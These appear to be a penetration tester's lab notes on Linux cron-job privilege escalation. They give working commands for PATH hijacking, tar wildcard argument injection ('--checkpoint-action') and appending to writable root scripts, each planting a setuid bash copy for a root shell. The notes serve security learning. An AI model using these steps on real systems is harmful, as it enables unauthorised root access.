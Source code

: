 #### Cron Jobs

The first five fields at the beginning of the cron job entry are used to specify the scheduled time. These fields are used to specify the following values:

Minute (0 – 59): Used to specify the minute the cron job should be run.
Hour (0 – 23): Used to specify the hour of the day the cron job should be run.
Day of the month (1 – 31): Used to specify the specific day of the month the cron job should be run.
Month (1 – 12): Used to specify the month when the cron job should be run.
Day of the week (0 – 7): Used to specify the day of the week when the cron job should be run.

```bash - target
ls -lah /etc/cron*
```

Find and cat out **any** files.

```bash - target
grep "CRON" /var/log/cron.log
```

```bash - target
cat /etc/crontab 
```

Look at ==WHO IS RUNNING== the task, not who owns it!

![[Pasted image 20220324133531.png]]

![[Pasted image 20220324133642.png]]

![[1._Reverse Shells (LIN)#Python file root execute]]

Also check:
```bash - target
systemctl list-timers --all
```

![[Pasted image 20220220161524.png]]

#### Path Environment Variable

The crontab PATH environment variable is by default set to /usr/bin:/bin

The PATH variable can be overwritten in the crontab file.

If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

1. View the contents of the system-wide crontab:

```bash - target
cat /etc/crontab
```

>PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```* * * * * root overwrite.sh```
```* * * * * root /usr/local/bin/compress.sh```

![[Pasted image 20211230154452.png]]

Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.

2. Create the file overwrite.sh in /home/user with the following contents:

[[1.2_Root Shell spawn#Script / cronjob]]


#### File nonexistant
Notice the path that is listed, how it starts with /home/user.  Let's check there to see if the file "overwrite.sh" exists:

```bash - target
ls -lah /home/user
```

It does not, so we can create the file to give us root.

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

```bash - target
chmod +x /home/user/overwrite.sh
```

The cron job runs every minute, so just wait until we see bash in /tmp directory, then run:

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220163029.png]]

#### Wildcards
```bash - target
cat /etc/crontab 
```

In this example, we look at /usr/local/bin/compress.sh

```bash - target
cat /usr/local/bin/compress.sh
```

![[Pasted image 20221115135824.png]]

We can take advantage of the wildcard character as seen above.  We'll create a malicious file called "runme.sh"

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
```

```bash - target
chmod +x runme.sh
```

```bash - target
touch /home/user/--checkpoint=1
```

```bash - target
touch /home/user/--checkpoint-action=exec=sh\runme.sh
```

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220164120.png]]

#### Append malicious code

![[Pasted image 20220220161524.png]]

We run ``'locate overwrite.sh'`` to find the location of the file, or, using the PATH, we begin hunting down the overwrite.sh file.  First we look in /home/user, not there, then /usr/local/sbin, not there, then finally we find it in /usr/local/bin.

```bash - target
ls -lah /usr/local/bin/overwrite.sh
```

We see we do have write privileges to the file.  Let's take a peek at what the file does.

```bash - target
cat /usr/local/bin/overwrite.sh
```

Now, we will append on our malicious code the file:

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220165112.png]]


